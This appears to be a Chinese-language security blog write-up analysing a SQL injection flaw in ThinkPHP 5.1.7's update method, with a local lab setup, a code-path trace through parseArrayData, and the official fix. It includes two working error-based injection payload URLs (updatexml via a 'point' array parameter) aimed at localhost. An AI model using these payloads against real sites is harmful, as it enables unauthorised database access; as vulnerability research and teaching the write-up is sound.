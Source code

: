 # 原创
：  ThinkPHP5.1.x SQL注入（update方法）

# ThinkPHP5.1.x SQL注入（update方法）

#### ThinkPHP5 SQL注入（update方法）

## 漏洞概要

> 



## 初始配置

> 



```
composer create-project --prefer-dist topthink/think=5.1  tpH3rmesk1t

```

> 
将 composer.json 文件的 require 字段设置成如下


```
"require": {
    "php": "&gt;=5.6.0",
    "topthink/framework": "5.1.7"
}

```

> 
然后执行 `composer update`


> 



```
&lt;?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()-&gt;get('username/a');
        db('users')-&gt;where(['id' =&gt; 1])-&gt;update(['username' =&gt; $username]);
        return '&lt;style type="text/css"&gt;*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }&lt;/style&gt;&lt;div style="padding: 24px 48px;"&gt; &lt;h1&gt;:)Gyan师傅永远嘀神！！！&lt;/h1&gt;&lt;p&gt; ThinkPHP V5.1&lt;br/&gt;&lt;span style="font-size:30px"&gt;12载初心不改（2006-2018） - 你值得信赖的PHP框架&lt;/span&gt;&lt;/p&gt;&lt;/div&gt;&lt;script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"&gt;&lt;/script&gt;&lt;script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"&gt;&lt;/script&gt;&lt;think id="eab4b9f840753f8e7"&gt;&lt;/think&gt;';
    }
}
?&gt;

```

> 
在`config/database.php`文件中配置数据库相关信息，并开启`config/app.php`中的app_debug和app_trace,创建数据库信息如下


```
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null,
);
insert into users(id,username) values(1,'H3rmesk1t');

```

## 漏洞利用

> 
Payload：


```
http://127.0.0.1/cms/public/index.php?username[0]=point&amp;username[1]=1&amp;username[2]=updatexml(1,concat(0x7,database(),0x7e),1)^&amp;username[3]=0 
或者
http://127.0.0.1/cms/public/index.php?username[0]=point&amp;username[1]=1&amp;username[2]=updatexml(1,concat(0x7,database(),0x7e),1)|&amp;username[3]=0 

```

## 漏洞分析

> 
先打断点，跟进一下payload，先接收变量


> 
跟进到`thinkphp/helper.php`中的`db`方法


> 
跟进到`thinkphp/library/think/db/Query.php`中`where`方法，接着进入`update`方法


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/83563ac2ac794d448e715778625a3b04.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/424b57587df04c6e9e7e88c397e6b312.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
进入到return里面，跟进到`thinkphp/library/think/db/Connection.php`中`connect`类的`update`方法，找到生成update的SQL语句`$sql = $this-&gt;builder-&gt;update($query);`，跟进该语句看看干了什么


> 
跟进`thinkphp/library/think/db/Builder.php`中的`update`方法，在`Builder`类中的`update`方法里又调用了`parseData`方法


> 
跟进`parseData`方法，在该方法中的swich语句中的default 语句中存在一个`parseArrayData`方法，跟进去看看


> 
跟进`thinkphp/library/think/db/builder/Mysql.php`中的`parseArrayData`方法，这里如果数组`$data`第一个变量的小写是`point`的话就进入到后续的判断语句中；由于`$data[2]`和`$data[3]`都不为空，所以就是传进来的值；if语句判断了一下`$data[1]`是不是数组，是的话就将一维数组的值连接为一个字符串；最后进入到拼接语句，拼接的形式为：`$data[2]('$data[3]($data[1])');`，参数均为可控参数


> 
用debug看看拼接后的值：`updatexml(1,concat(0x7,database(),0x7e),1)^('0(1)')`，成功造成SQL注入


## 漏洞修复

> 
参考官方修复方法，直接将 `parseArrayData` 方法删除


## 攻击总结

> 
参考Mochazz师傅的审计流程

